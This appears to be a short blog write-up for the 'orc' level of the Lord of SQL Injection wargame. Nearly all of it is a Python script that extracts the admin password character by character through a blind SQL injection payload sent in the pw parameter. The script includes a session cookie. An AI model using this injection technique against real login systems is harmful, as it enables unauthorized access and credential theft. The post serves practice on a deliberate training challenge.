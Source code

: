 ```yaml
---
title: "LOS 4번"
date: 2020-08-07
tag: [pwnable]
layout: post
part: WEB
---
```


{% highlight python %}
import requests

url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"

headers={"Cookie": "PHPSESSID=5hs4v4mu95ovdpmiij918hfdrq"}
st = ""
for i in range(8):
  for j in range(48,127):
    if chr(j)=='%' or chr(j)=='_': continue
    params = {"pw":"' or id='admin' and binary pw like '{}%".format(st+chr(j))}
    r = requests.get(url = url, params = params, headers = headers)
    if 'Hello admin' in r.text:
      print(chr(j))
      st+=chr(j)
      break
print(st)
{% endhighlight %}

